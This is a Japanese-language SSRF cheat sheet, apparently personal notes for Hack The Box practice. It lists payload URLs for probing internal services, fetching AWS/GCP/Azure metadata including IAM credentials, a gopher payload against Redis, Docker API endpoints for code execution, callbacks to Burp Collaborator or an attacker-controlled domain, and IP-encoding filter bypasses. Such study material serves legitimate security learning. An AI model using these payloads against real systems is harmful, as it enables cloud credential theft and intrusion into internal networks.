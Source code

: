 ### **SSRF（Server-Side Request Forgery)

SSRF（サーバーサイドリクエストフォージェリ）は、攻撃者がサーバーに不正なリクエストを送信させ、内部ネットワークや非公開のAPIにアクセスさせる脆弱性
## **SSRFを疑うべきケース**

SSRFの可能性がある状況

1. **ユーザーが指定したURLに対してサーバーがリクエストを送る機能がある**
    
    - **画像のURLプレビュー**  
        → ユーザーがURLを入力すると、画像を取得して表示する
    - **Webhooksの登録**  
        → ユーザーがWebhookのURLを指定すると、サーバーがリクエストを送る
    - **APIリクエストの中継（Proxy機能）**  
        → 外部APIと連携するシステム（例: OpenGraph、RSSリーダー）
2. **外部サービスとの通信を行う機能がある**
    
    - **PDF生成機能**  
        → WebページをPDFに変換するサービス（URLを直接指定できる場合が多い）
    - **クラウド関連の操作がある** → AWSやGCP環境のメタデータにアクセスできる可能性がある
    - **URLフィルタリングが甘いAPI**  
        → 任意のURLにリクエストを送れる（API GatewayやOpen Redirectが存在）
3. **エラーメッセージにリクエスト結果が表示される**
    
    - **リダイレクトが発生する**
    - **リクエスト先のエラーメッセージがレスポンスに表示される**

---

## **SSRFの検証方法**

まずSSRFかもと思ったら、下を試す前に怪しまれないように確認する方法
→自分(攻撃者側)の端末にリクエストを飛ばさせる
netcatで待機
```
nc -lvnp 5555
```
`http://自分のIP:5555`にアクセスして、nc側にリクエストが飛んでくるかを確認する
リクエストが飛んできた場合
→SSRFの脆弱性がある

下に進む

### **1. 内部ネットワークアクセスを試す**

まず、内部サービスへのアクセスを確認するために、ローカルアドレスにリクエストを送る。

#### **基本的なSSRFテスト**

入力フォームやAPIエンドポイントに、以下のURLを試す。

```bash
http://127.0.0.1/
http://localhost/
http://192.168.1.1/
http://10.0.0.1/
http://[::1]/
```

→ 何らかのレスポンスがある場合、内部アクセスが可能な可能性が高い。

#### **管理パネルのチェック**

SSRFで管理パネルやアプリケーションにアクセスできるかを調査

```bash
http://localhost/admin
http://127.0.0.1:8000/
http://127.0.0.1:8080/
http://127.0.0.1:5000/
http://127.0.0.1:9001/ (Supervisor)
```

→ 404以外のレスポンスや特定の管理画面のレスポンスが返ってきたら脆弱性あり。

---

### **2. クラウドメタデータの取得**

クラウド環境（AWSやGCPなど）のメタデータサーバーが取得できるか試す。

#### **AWSのメタデータ**

```bash
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

→ IAMクレデンシャルが取得できる場合、EC2の特権情報を取得できる。

#### **GCPのメタデータ**

```bash
http://metadata.google.internal/computeMetadata/v1/
```

→ GCPのインスタンス情報が取得できる。

#### **Azureのメタデータ**

```bash
http://169.254.169.254/metadata/instance?api-version=2021-01-01
```

---

### **3. SSRF to RCE（リモートコード実行）**

一部のシステムでは、SSRFを利用してリモートコード実行（RCE）につながることがある。

#### **Redisへのアクセス**

Redisのデフォルトポート `6379` にアクセスできるかを試す

```bash
http://127.0.0.1:6379/
gopher://127.0.0.1:6379/_%2A1%0D%0A$4%0D%0Ainfo%0D%0A
```

→ Redisにアクセスできるなら、後続の攻撃が可能。

#### **Elasticsearchへのアクセス**

```bash
http://127.0.0.1:9200/_cat/indices
```

→ もしElasticsearchのデータが取得できるなら、内部情報を抜き出せる。

#### **Docker APIの利用**

Dockerが動いているかを確認：

```bash
http://127.0.0.1:2375/images/json
```

→ コンテナ作成が可能なら、RCEのチャンス。

---

### **4. DNS Exfiltration（データ流出の確認）**

SSRFを利用して、攻撃者が制御するサーバーにリクエストを送らせることで、外部通信が可能かを確認する。

#### **Burp Collaborator / Interactsh**

Burp CollaboratorやInteractshを使い、サーバーが外部へリクエストを送信するかを確認

```bash
http://your-burp-collaborator-id.burpcollaborator.net/
http://your-interactsh-id.interact.sh/
```

→ もしサーバーがリクエストを送信してきたら、外部通信が可能な証拠。

---

### **5. Bypass Techniques（フィルタ回避）**

一部のサーバーでは、SSRFを防ぐために「`localhost` へのリクエスト禁止」などの制限がある。以下の方法でバイパスを試す。

#### **IPアドレスのエンコード**

```bash
http://2130706433/  # 127.0.0.1 を整数表記
http://0x7F000001/  # 127.0.0.1 を16進数
```

#### **DNS Rebinding**

一部のサーバーでは、外部ドメインから内部へリクエストを送れるようになる。

```bash
http://attacker-controlled-domain.com/
```

→ DNSリバインディングを利用し、`localhost` へリダイレクト。

### 最終奥義 : Burpsuiteでブルートフォースで管理用ポートを探し出す
ここでは、内部向けの公開されていない空いているポートを探す
Burp SuiteのIntruderを使って、すべてのポートで試す
こんな感じで、該当部分をIntruderに送って、画像内の80の部分を「1~65535」で探す。
(*なんかFreeバージョンだと制限かかって動かなそう)
![[Pasted image 20250130145732.png]]
![[Pasted image 20250130145941.png]]

(なんかFreeバージョンだと制限かかって動かなそう)
pythonで同じことをする

---
## **まとめ**

HTBでSSRFを調査する際は、以下の流れでテストするとよい：

1. **内部ネットワークへのアクセスを試す**（`localhost`、`127.0.0.1` など）
2. **クラウドメタデータの取得を試す**（AWS、GCP、Azure）
3. **SSRFからのRCEを狙う**（Redis、Docker、Elasticsearch）
4. **DNS Exfiltrationを試す**（Burp Collaborator / Interactsh）
5. **フィルタ回避を試す**（IPエンコード、DNSリバインディング）

**内部APIやクラウド情報を抜き取ることで、次の攻撃につなげる** ケースが多いので、SSRFの発見は重要！